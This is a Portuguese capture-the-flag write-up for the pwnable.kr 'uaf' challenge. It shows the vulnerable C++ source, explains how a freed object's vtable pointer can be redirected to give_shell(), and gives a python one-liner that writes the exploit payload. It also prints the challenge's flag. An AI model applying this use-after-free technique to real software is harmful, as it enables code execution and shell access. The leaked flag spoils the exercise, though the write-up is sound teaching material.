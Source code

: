 
# UAF
###### Resolvido por @Cubano2
> Este é um CTF sobre [Use After Free]  

## Sobre o Desafio  

Mommy, what is Use After Free bug?

Running at : nc pwnable.kr 9000

## 🔗 Links do Desafio

- [Exercício](https://pwnable.kr/play.php)

## Solução

O desafio inicia com o acesso à máquina utilizando o seguinte comando:

```
ssh uaf@pwnable.kr -p2222
```

Dentro do terminal da máquina, os seguintes arquivos estão disponíveis:

```
uaf@pwnable:~$ ls
flag  uaf  uaf.cpp
```

Executando o comando `cat uaf.cpp`, é possível visualizar o código-fonte, que, além de apresentar a vulnerabilidade Use-After-Free (UAF), também explora conceitos de Programação Orientada a Objetos:

```c++
#include <fcntl.h>                                           
#include <iostream>                                          
#include <cstring>                                         
#include <cstdlib>                                          
#include <unistd.h>
                                          
using namespace std;

class Human{

private:
        virtual void give_shell(){                                                                                                          
                system("/bin/sh");                                             
        }                                                                                                                                    
protected:                                                                                                                                   
        int age;                                                                                                                             
        string name;
public:
        virtual void introduce(){
                cout << "My name is " << name << endl;
                cout << "I am " << age << " years old" << endl;
        }
};
 
class Man: public Human{
public:
        Man(string name, int age){
                this->name = name;
                this->age = age;
        }
        virtual void introduce(){
                Human::introduce();
                cout << "I am a nice guy!" << endl;
        }
};
 
class Woman: public Human{
public:
        Woman(string name, int age){
                this->name = name;
                this->age = age;
        }
        virtual void introduce(){
                Human::introduce();
                cout << "I am a cute girl!" << endl;
        }
};
 
int main(int argc, char* argv[]){
        Human* m = new Man("Jack", 25);
        Human* w = new Woman("Jill", 21);
 
        size_t len;
        char* data;
        unsigned int op;
        while(1){
                cout << "1. use\n2. after\n3. free\n";
                cin >> op;
 
                switch(op){
                        case 1:
                                m->introduce();
                                w->introduce();
                                break;
                        case 2:
                                len = atoi(argv[1]);
                                data = new char[len];
                                read(open(argv[2], O_RDONLY), data, len);
                                cout << "your data is allocated" << endl;
                                break;
                        case 3:
                                delete m;
                                delete w;
                                break;
                        default:
                                break;
                }
        }

        return 0;
} 
```

Analisando o código, percebe-se que ele possui três funções principais:

- **Opção 1 (use)** → Chama a função `introduce()` para `m` e `w`.

- **Opção 2 (after)** → Aloca memória dinâmica com tamanho definido pelo argumento `argv1` e carrega dados do arquivo especificado em argv2.

- **Opção 3 (free)** → Libera os objetos `m` e `w`.

Descompilando o código no Ghidra, duas funções importantes devem ser analisadas: `introduce()` e `give_shell()`. Pela lógica do código, ao modificar a informação armazenada na opção `use`, é possível fazer com que o ponteiro, que originalmente apontaria para `introduce()`, seja direcionado para `give_shell()`.

Os objetos `m` e `w` estão armazenados em uma vtable. Em C++, as funções virtuais são acessadas através da Virtual Table (vtable), que contém ponteiros para as funções da classe, sendo, neste caso, a classe `Human`.

Variável `man`

![image](https://github.com/user-attachments/assets/d3024548-9134-4a4b-a4f0-79c773755914)

Vtable de `Man`

![image](https://github.com/user-attachments/assets/03428383-0981-41e8-94a9-3f577418a7ab)

Vtable de `human`

![image](https://github.com/user-attachments/assets/604f0582-36b3-4d67-91a5-dd38965ee463)


Quando um objeto chama `introduce()`, ele acessa o endereço armazenado na vtable. Ao analisar a vtable de `Man` no Ghidra, identificam-se os seguintes endereços relevantes:

```
0x401560 → Início da vtable de `Man`
0x401568 → Ponteiro para `Man::typeinfo` (metadados da classe `Man`)
0x401570 → Ponteiro para `Human::give_shell`
0x401578 → Ponteiro para `Man::introduce`
```

Isso significa que a função `give_shell()` já está presente na vtable e pode ser acessada redirecionando o ponteiro corretamente.

Para explorar a vulnerabilidade, é necessário alocar um espaço de memória utilizando a opção `after`, simulando um objeto `Man` real, mas modificando o ponteiro da vtable. Assim, quando a opção `use` for selecionada, o programa executará `give_shell()` em vez de `introduce()`.

O deslocamento entre `give_shell()` e `introduce()` pode ser calculado da seguinte maneira:

```
0x401578 - 0x401570 = 8 bytes
```
Portanto, um ajuste de 8 bytes permite modificar o ponteiro da vtable e fazer com que a execução de `introduce()` chame `give_shell()`.

Para executar o código, é necessário criar um payload com o endereço correto e injetá-lo utilizando a opção `after`.

O seguinte comando gera o payload necessário:

```
python3 -c 'import sys; sys.stdout.buffer.write(b"\x68\x15\x40\x00" + b"\x00" * 4)' > /tmp/uaf-exploit
```

A sequência de comandos para explorar a vulnerabilidade é:

![image](https://github.com/user-attachments/assets/d9e1f927-e39c-4ec7-a0d4-06c0457fd740)

> Assim, obtemos a flag `yay_f1ag_aft3r_pwning`
